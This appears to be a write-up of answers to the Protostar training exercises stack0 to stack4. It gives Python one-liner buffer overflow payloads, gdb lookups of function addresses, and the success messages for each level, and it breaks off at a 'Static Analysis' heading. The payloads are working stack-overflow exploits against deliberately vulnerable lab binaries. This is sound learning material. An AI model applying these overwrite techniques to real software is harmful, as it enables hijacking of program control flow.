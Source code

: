 # Prostar Answers:
## Stack0
python -c "print 64*'@'+ '123'" | ./stack0

## Stack1
./stack1 $(python -c "print 64*'@'+ '\x64\x63\x62\x61'")

## Answer stack2:
 export GREENIE=$(python -c "print 64*'@'+ '\x0a\x0d\x0a\x0d'")
user@protostar:/opt/protostar/bin$ ./stack2
you have correctly modified the variable!!!!

## Answer stack3:
gdb ./stack3
	(gdb) x win
	0x8048424 <win>:	0x83e58955
	
0x8048424 -> \x24\x84\x04\x08 (litle endian)

user@protostar:/opt/protostar/bin$ python -c "print 64*'@'+ '\x24\x84\x04\x08'" | ./stack3
calling function pointer, jumping to 0x08048424
code flow successfully changed

## Answer stack4
gdb ./stack4
	(gdb) x win
	0x80483f4 <win>:	0x83e58955
0x80483f4 -> \xf4\x83\x04\x08
```bash
user@protostar:/opt/protostar/bin$ python -c 'print "A"*76 + "\xf4\x83\x04\x08"' | ./stack4
code flow successfully changed
Segmentation fault
```

Lets crack it this time.


### Recon

Lets run it and see what happens.

```bash
user@protostar:/opt/protostar/bin$ ./stack4
ABCD
user@protostar:/opt/protostar/bin$
```
Nothing much happens!

### Static Analysis
